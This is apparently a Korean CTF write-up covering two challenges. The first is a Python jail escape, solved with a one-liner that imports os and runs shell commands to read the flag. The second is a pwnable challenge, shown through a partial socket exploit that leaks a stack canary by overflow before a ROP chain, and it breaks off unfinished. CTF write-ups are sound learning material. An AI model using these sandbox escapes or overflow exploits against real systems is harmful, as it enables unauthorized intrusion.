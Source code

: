 ```python
```

## 0x15 MISC Python Playground [50]
- 파이썬 이스케이프 같은 문제였는데.. 특별한 필터링이 없어서  os 모듈을 가져와서 시스템 명령어를 실행하였습니다.

```python
__builtins__.__import__("os").system("ls -al;cat flag")
```

## 0x17 Pwnable Withdraw [200]
- 스트립...스태틱 컴파일...네... ㅠㅠ
- 스택 까나리가 걸려 있어서 그냥 공격은 할 수 없지만 릭이 되는 곳이 있어서 릭으로 까나리를 구할 수 있었음다.
- 쓸만한 가젯이 많아서 쉽게 ROP 할수 있었슴니다!

```python
import socket
from struct import *

p32 = lambda x:pack("<L",x)
up32 = lambda x:unpack("<L",x)[0]
host = "223.194.105.182"
port = 35159

def until(msg):
        data = ''
        while True:
                data += s.recv(1)
                if msg in data:
                        return data

def menu():
	until("Input number : ")

def canary_leak():
	menu()
	s.send("2\n")
	until("Do you have id code?(y/n)")
	s.send("y\n")
	until("Register your id code.\n")
	leak_i = "a" * 65
	s.send(leak_i)
	leak = s.recv(100)
	print repr(leak)
	canary = up32("\x00" + leak[69:72])
	return canary

def r_exit():
	menu()
	s.send("2\n")
	until("Do you have id code?(y/n)")
	s.send("a\n")

s = socket.socket()
s.connect((host, port))

'''
sys_read
eax = 0x3
ebx = fd
ecx = buf
edx = size

sys_write
```